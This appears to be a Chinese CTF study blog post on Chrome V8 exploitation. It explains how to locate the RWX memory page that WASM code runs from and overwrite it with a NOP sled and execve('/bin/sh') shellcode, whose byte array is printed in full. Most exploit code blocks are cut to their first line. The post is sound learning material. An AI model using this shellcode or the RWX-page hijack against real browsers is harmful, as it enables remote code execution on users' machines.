







主要参考blog：传送门
备注：上一篇blog中提到的指针压缩是v8沙箱的重要实现方式，可以避免对象的内存错误溢出到其他重要内存空间。对沙箱的逃逸也是当前漏洞利用的关键，不是那么容易实现的。
D. Utilize WASM
在上面的blog中，除了普通的pwn利用方式外，还给出了一种通过WebAssembly进行利用的方式。
WASM，简单来说，就是将C/C++这种编译语言编译成一种机器码，然后由v8来解释执行它。这个机器码本质上是一种字节码，参考资料。我们首先安装一下相关包测试一下它的效果。
D.1 Installation && Trial
这里选择安装emscripten，这是一个基于LLVM的WASM完整编译链，按照官方文档中的指引进行安装即可。
1 | Get the emsdk repo |
安装完成后，我们编写一个Demo C程序并用emscripten处理。
1 | int main() { |
使用下面的命令编译为WASM：
1 | emcc demo.c -o demo.js |
它的输出由两个文件组成，一个是JS文件demo.js，另一个是WASM文件demo.wasm。这个demo.js可以通过node直接执行：
1 | node demo.js |
另外还可以创建HTML文件，将上面的编译命令的输出结果后缀替换为html即可，这样可以在浏览器打开html文件时执行WASM。
我们再安装一个反编译WASM的工具，帮助我们拆解WASM的执行逻辑。这里安装WABT。按照Github README进行编译安装即可。
添加了环境变量后，可以使用下面的命令将WASM转换为WAT格式，WAT格式是文本格式，可以理解为WASM的汇编代码。
1 | wasm2wat demo.wasm > demo.wat |
WABT甚至支持将WASM直接转换为C代码，但最终的效果就像用IDA Pro反汇编出来的C代码一样，可读性有但不多。
1 | wasm2c demo.wasm > demo_rev.c |
需要注意的是，我们并不能直接读取该WASM文件并在d8中直接执行。因为d8中只能执行WASM字节码片段，就像我们在C语言中想要执行一段shellcode一样，这里输出的WASM文件可以对应于完整的ELF文件。将ELF文件从头开始作为shellcode执行当然不可行，因此将WASM文件从头开始在d8中执行同样不可行。那么我们应该对其进行什么处理，才能让d8能够成功执行呢？
执行下面的命令即可：
1 | emcc demo.c -o demo.html -s WASM=1 -Os -g2 |
这里的-Os表示优化等级，-g2表示调试等级，如果这里不加调试等级，那么导出的符号a、b、c我们可能不方便对应于main，不利于我们后续运行。输出WASM文件用wasm2wat命令解析结果如下：
1 | (module $demo.wasm |
这里最重要的是需要将输出设置为HTML格式，并设置WASM选项为1。这样会输出一个HTML文件和一个WASM文件，而WASM文件中基本仅会保存main函数的逻辑，且会将main函数作为导出函数，可以在d8中调用。如果使用下面的命令：
1 | emcc demo.c -o demo.wasm -Os |
虽然也可以输出WASM文件，但我们无法将其直接加载到d8中进行执行，因为其中包含外部符号（即下面的wasi_snapshot_preview1和proc_exit），而外部符号在d8中是不允许使用的：
1 | (module $demo.wasm |
如果执行包含外部导入符号，d8会产生报错，因此同样的，我们无法在WASM中编写如printf("Hello world");这样的语句，因为printf是导入符号。
1 | ./test_wasm.js:15: TypeError: WebAssembly.Instance(): Import #0 module="wasi_snapshot_preview1" error: module is not an object or function |
在上面使用正确命令获取的WASM代码中，可以看到main函数是以c作为导出符号的，那么我们需要在d8中调用c这个导出符号：
1 | var wasmCode = new Uint8Array(Array.from(read("./demo.wasm"), c => c.charCodeAt(0))); |
输出结果：
1 | ~/Desktop/misc/CTF-problems/2019CTF-masterctf_oob/Chrome » ./v8/v8/out/x64.debug/d8 --allow-natives-syntax ./test_wasm.js |
JS代码的第一行是读取demo.wasm文件并将其转换为8位无符号整数类型。后面则是创建WASM模块于WASM执行实例。通过wasmInstance.exports.xxx获取某个WASM文件导出符号，这里获取的是c，也就是main函数的导出符号，这个导出符号是一个函数，下面可以直接以函数调用的形式执行WASM文件中的main函数，执行的返回值即为main函数的返回值。
D.2 WASM Code Path
上面我们已经能够成功进行WASM的导入和执行，那么下面我们需要简单理解一下WASM的执行流程。
考虑下面的代码：
1 | var wasmCode = new Uint8Array(Array.from(read("./demo.wasm"), c => c.charCodeAt(0))); |
WASM文件就使用上面的那个返回42的简单代码。

在断点处查看内存布局，可以发现一个RWX权限的页，

经过简单查找之后，我们就可以发现WASM代码转换得到的x64汇编代码。可见在我们能够进行任意地址读写后，可以通过修改这里直接执行shellcode。
那么，我们应该通过什么地址链找到这里呢。本文的主要blog提供了一条链子：
A. Function.shared_info (offset 0x18)
这里的Function就是上面脚本中的f。

B. SharedFunctionInfo.data (offset 8)

C. WasmExportedFunctionData.instance (offset 0x10)

D. WasmInstanceObject + 0x88

这样我们就可以找到RWX的内存页的首地址。实际上我们找到这里就可以了，不用管页内偏移具体是多少，因为我们可以直接用nop指令填充该页的绝大部分，然后在后面附加shellcode即可。
D.3 Chrome v8 Double Kill
我们尝试将寻找RWX页的内存地址的实现代码添加到上一篇blog中实现的exp脚本后面：
1 | // ----------------------------------------------------------------------------------------------- |
然后加上nop指令填充：
1 | // ----------------------------------------------------------------------------------------------- |
编写下面的简单Python脚本获取shellcode字节序列：
1 | from pwn import * |
字节序列为：
1 | [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5] |
将shellcode写入RWX页中：
1 | // ----------------------------------------------------------------------------------------------- |

攻击成功。
完整JS代码：exp.js
E. 阶段总结
在前面3篇blog中，我们讨论了不加沙箱的Chrome v8的相关漏洞利用策略，总的来说，Chrome v8的漏洞利用路线是非常固定的，基本都是从类型混淆开始，到可以获得对象地址以及将一个地址作为对象，再到任意地址读写，最后各显神通。
在后面的学习中，我们就需要应对带有沙箱的更新的版本的Chrome v8，浅看了一些blog，发现利用的路径应该也比较固定。一路走来，从Javascript的解析再到WASM，可以发现Chrome v8集成了很多的功能，值得我们深入探索。